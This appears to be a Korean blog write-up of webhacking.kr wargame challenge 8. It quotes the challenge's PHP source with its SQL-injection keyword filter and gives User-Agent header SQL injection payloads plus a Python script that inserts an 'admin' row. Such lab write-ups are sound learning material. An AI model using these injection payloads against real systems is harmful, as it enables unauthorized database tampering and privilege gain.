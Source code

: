 ```yaml
---
title: "webhacking.kr 8번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[8번 바로가기](http://webhacking.kr/challenge/web/web-08/)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. http 헤더의 user-agent를 조작하는 문제라는 느낌을 준다.

![8번](/img/8번_1.JPG)

새로 고침을 하면 done! 뒤의 숫자가 1 증가한다. 70번을 다 채우면 뭔가 있을 것 같다.
소스를 보면 index.phps에 들어가라는 힌트가 있다.


```php
$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}
```

http 헤더의 user-agent 필드에 있는 값에서 sqli에 사용되는 여러 문자를 필터링하고 쿼리를 수행한다.
먼저 lv0 테이블에서 id 컬럼에 값이 몇개 있는지 가져오는데, 이게 70개가 넘어가면 lv0 테이블을 비운다.
그리고 lv0 테이블에서 user-agent에 해당하는 레코드의 id 값을 가져온다. 여기서 첫번째 값이 "admin" 이면 문제가 풀린다.
그 밑에 보면 user-agent에 해당하는 값이 없으면 새로 입력하는데, 이때 user-agent에 넣은 값이 쿼리에 사용된다. user-agent에 쿼리를 넣어 문제 id에 admin을 삽입하면 된다.


일단 '$pat'에서 싱글쿼터를 필터링하지 않는다. select 문에서는 다시 `$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);`

에서 싱글쿼터를 필터링하는데, insert문에서는 `$agent`를 그대로 사용하기 때문에 싱글쿼터를 필터링하지 않는다.
`insert into lv0(agent,ip,id) values('$agent','$ip','guest');`

에서 agent에 `hihi', '0', 'admin')#` 이런식으로 쿼리를 넣거나, `a1','i1','admin'), ('a2` 이렇게 주석을 사용 안하고 한 번에 여러 레코드를 삽입하는 쿼리를 만들면 된다.

![8번](/img/8번_2.JPG)


```python
import urllib.request

agent1 = "hihi', '0', 'admin')#'"
agent2 = "hihi"
header = {'User-Agent':agent1, 'Cookie':'PHPSESSID=본인세션쿠키값'}

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)

header['User-Agent'] = agent2

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)
```
